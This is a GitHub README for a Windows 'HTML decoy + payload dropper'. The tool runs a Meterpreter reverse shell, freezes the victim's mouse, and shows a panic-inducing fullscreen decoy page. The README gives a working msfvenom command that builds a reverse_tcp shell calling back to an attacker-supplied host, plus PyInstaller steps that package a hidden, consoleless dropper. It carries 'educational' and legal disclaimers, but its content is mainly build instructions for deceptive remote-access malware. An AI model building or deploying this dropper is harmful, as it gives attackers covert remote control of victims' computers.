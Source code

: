 # windows-html-decoy-payload
meterpreter payload with HTML decoy site, more advanced

("html_decoy_preview.mp4" is a preview/example of the html-decoy)

Windows HTML Decoy + Payload Dropper

This educational repo demonstrates a Windows payload launcher that:
- Executes a Meterpreter reverse shell
- Freezes the user's mouse for 10 seconds
- Opens a **glitchy, red, fullscreen HTML decoy** with dramatic imagery

For security researchers and red team simulation **only**. 
Using this tool outside of a controlled virtual environment
without legal consent is **ILLEGAL**

---

 Setup & Usage

1. Generate the Reverse Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o shell.exe
```

2. Place `shell.exe` in the `builder/` folder.

3. Build the Dropper (Python Required)

```bash
pip install pyinstaller
cd builder
pyinstaller --noconsole --onefile dropper.py
```

---

Legal

Do **NOT** use this on systems you don't own or without explicit permission.

---

Credits

- Payload launcher logic by Talyx66
- HTML glitch effects custom-crafted
- Image sources used in decoy for visual panic simulation
